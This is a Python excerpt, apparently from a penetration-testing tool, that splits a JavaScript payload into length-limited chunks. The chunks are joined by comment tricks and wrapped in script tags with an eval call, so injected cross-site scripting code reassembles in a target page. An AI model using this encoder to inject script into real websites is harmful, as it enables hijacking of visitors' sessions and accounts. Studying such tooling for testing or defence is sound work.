 ```python
        comment = suffix + '\n' + prefix
        sep = quote + '+' + comment + quote
        setup_prefix = comment.join(split_to_len(
            '<script>%s=' % dummy_var, count=max_len-len(suffix)))
        left_at_last_line = max_len - len(setup_prefix.rsplit('\n',1)[-1])
        
        # padding to take into account any content on the line between
        # the prefix and the start of the payload
        padding = '?' * (max_len - left_at_last_line - len(prefix))
        
        # if there's no space for at least "<letter>"+/*, just start
        # on the next line
        if left_at_last_line < 6:
            setup_prefix = setup_prefix + comment
            padding = ''
        
        payload = self.raw.replace(quote,'\\'+quote)
        logger.debug('Splitting %s' % payload)
        # hold on to the last character of payload
        # since there will be no + at the end
        # len(sep)+1 is to compensate for the newline
        lines = split_to_len(padding+payload[:-1], count=max_len-len(sep)+1)
        lines[0] = lines[0][len(padding):]
        lines[-1] = lines[-1] + payload[-1]
        
        # there is always space for the ; at the end, since it takes
        # the place of the + on previous lines
        encoded = '%s%s%s%s' % (setup_prefix, quote,
                sep.join(lines), quote)
        lines = encoded.rsplit('\n',1)
        
        # setup_suffixes[0] will be added to the last line, split
        # to max_len and joined with a comment
        # setup_suffixes[1], if present, will be joined at the end
        # with a newline
        if max_len == 10:
            # if there is no space for */</script> we'll end the
            # last line with a semicolon instead of /*
            # there will be JavaScript errors due to random content on
            # the page between the last two payload chunks
            setup_suffixes = [';eval(%s);' % dummy_var, '</script>']
        else:
            # otherwise split the whole suffix and put comments
            # between each chunk
            setup_suffixes = [';eval(%s)</script>' % dummy_var]
        
        # hold on to the last two characters of setup_suffixes[0]
        # and the first two characters of lines[-1]
        # since there will be no /* at the end and no extra */ at the
        # beginning
        # len(comment)+1 is to compensate for the newline
        to_add = split_to_len(lines[-1][2:]+setup_suffixes[0][:-2],
            count=max_len-len(comment)+1,
            no_split_on='(\\\\.|eval|\(%s(?:\)|$)|</[a-z]+)' % dummy_var)
        to_add[0] = lines[-1][:2] + to_add[0]
        to_add[-1] = to_add[-1] + setup_suffixes[0][-2:]
        
        encoded = '\n'.join(lines[:-1] + \
                [comment.join(to_add)] + setup_suffixes[1:])
        
        return encoded
    
    def as_num_to_string(self, quote, max_int, **kwargs):
```